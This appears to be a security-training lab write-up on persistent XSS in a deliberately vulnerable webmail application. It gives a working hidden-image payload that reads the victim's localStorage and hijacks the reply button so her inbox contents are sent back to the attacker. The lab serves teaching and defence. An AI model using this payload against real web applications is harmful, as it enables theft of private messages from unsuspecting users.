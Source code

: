 # Lab #2 - Attacking HTML5 -2
This type of attack requires the attacker to interact in some manner with the victim.

The web application will display your inbox.

![lab2-1](images/lab2-1.png)

If you analyze the source code of the index page (index.php), you will notice that the localStorage object has been used to store all received messages.

The following JavaScript code (available in the index.php page) shows how the messages are retrieved (via an Ajax request) and how the messages have been stored (using the localStorage interface):


    $.ajax({
        url: "ajax.php?fun=getList",
        async: false,
        success: function (data) { 
        . . . 
        . . . 
        for (var i=0; i<data.emailList.length; i++) {
            . . . 
                    // Add items into local storage
                    var encodedItem=JSON.stringify(data.emailList[i]);                      localStorage.setItem(i,encodedItem); 
            } 
        } 
    });

Your next step will be finding out a vulnerability that could help you (acting as the attacker) to access the localStorage object related to your victim.

Secure webmail is vulnerable to XSS (Persistent XSS). The web application doesn't perform any sanitizing on the sent message text. To test the vulnerability, you can create a malicious message and send it to yourself.

Let us choose the following payload:

    <img src="notExistent.foo" onerror="alert('XSS');" />

## How to build the malicious message

    Hi Carolina, could you send me your phone number?
    <img style="display:none;" src="notExistent.foo" onerror="function steal(){ 
            var theft='----';
            for(var i=0;i<localStorage.length;i++){
                theft+=localStorage.getItem(i); 
                theft+='----';
            } 
        document.getElementById('reply').value=document.getElementById('reply').value+theft; 
    }
    document.getElementById('sendButton').onclick=function(){
            steal(); 
            send(); 
        }"
    "/>


## Final Payload

    Hi Carolina, could you send me your phone number? <img style="display:none;" src="notExistent.foo" onerror="function steal(){ var theft='----'; for(var i=0;i<localStorage.length;i++){ theft+=localStorage.getItem(i); theft+='----';} document.getElementById('reply').value=document.getElementById('reply').value+theft; } document.getElementById('sendButton').onclick=function(){ steal(); send(); } "/>

![lab2-2](images/lab2-2.png)

- The JavaScript code highlighted in the lines 4-8 will be used to steal messages from the victim's inbox.

- The JavaScript code highlighted in line 9 will be used to append the stolen messages to the actual message that the victim responds with.
- The JavaScript code highlighted in lines 12-13** will be called when the victim presses the Reply button. This code makes use of a send() function already built into the web application. The send() function performs the sending operation, but the message written by the victim will be changed by the attacker's payload (code in line 9) **before the victim presses the Reply button.


![lab2-3](images/lab2-3.png)

## Exploitation (Attacker's point of view - part2)

![lab2-4](images/lab2-4.png)

All the messages available in Carolina's inbox have been sent through her last reply thanks to your malicious message.

![lab2-5](images/lab2-5.png)